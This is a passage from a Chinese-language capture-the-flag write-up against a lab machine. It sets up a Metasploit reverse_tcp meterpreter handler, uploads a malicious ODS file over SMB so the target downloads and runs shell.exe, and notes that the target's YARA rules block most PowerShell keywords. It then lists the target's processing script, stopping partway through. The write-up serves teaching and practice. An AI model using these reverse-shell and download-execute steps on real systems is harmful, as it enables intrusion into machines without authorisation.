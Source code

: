 msfconsole配置handler进行监听

```
msf5 &gt; use exploit/multi/handler
msf5 exploit(multi/handler) &gt; set payload windows/x64/meterpreter/reverse_tcp
```

然后用smbclient把生成的msf.ods恶意文件上传到smb

```
root@kali:~/pentest/Re# smbclient \\10.10.10.144\malware_dropbox
Enter WORKGROUProot's password:
Try "help" to get a list of possible commands.
smb: &gt; put msf.ods

```

然后稍等片刻，http服务会提示靶机访问shell.exe，然后shell就会弹回来，到此获取到一个flag。

```
C:UserslukeDesktop&gt;type user.txt
type user.txt
FE4173xxxxxxxxxxxxx0D9F384D3
```



## Winrar 目录穿越

查看当前用户的Documents目录，可以看到自动处理ods文件的脚本和过滤规则

```
Directory of C:UserslukeDocuments

06/18/2019  01:05 PM    &lt;DIR&gt;          .
06/18/2019  01:05 PM    &lt;DIR&gt;          ..
01/13/2020  09:16 PM    &lt;DIR&gt;          malware_dropbox
01/13/2020  09:16 PM    &lt;DIR&gt;          malware_process
01/13/2020  09:16 PM    &lt;DIR&gt;          ods
06/18/2019  09:30 PM             1,096 ods.yara
06/18/2019  09:33 PM             1,783 process_samples.ps1
03/13/2019  05:47 PM         1,485,312 yara64.exe
               3 File(s)      1,488,191 bytes
               5 Dir(s)  17,590,632,448 bytes free
```

ods.yara

[![](./img/197816/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0185abb752995f5333.png)

基本上把大部分powershell关键字都过滤，上面用来下载执行后门的方式还是比较稳的。

process_samples.ps1

```
$process_dir = "C:UserslukeDocumentsmalware_process"
$files_to_analyze = "C:UserslukeDocumentsods"
$yara = "C:UserslukeDocumentsyara64.exe"
$rule = "C:UserslukeDocumentsods.yara"

while($true) {
    # Get new samples
    move C:UserslukeDocumentsmalware_dropbox* $process_dir

    # copy each ods to zip file
    Get-ChildItem $process_dir -Filter *.ods | 
    Copy-Item -Destination {$_.fullname -replace ".ods", ".zip"}

    Get-ChildItem $process_dir -Filter *.zip | ForEach-Object {

        # unzip archive to get access to content
```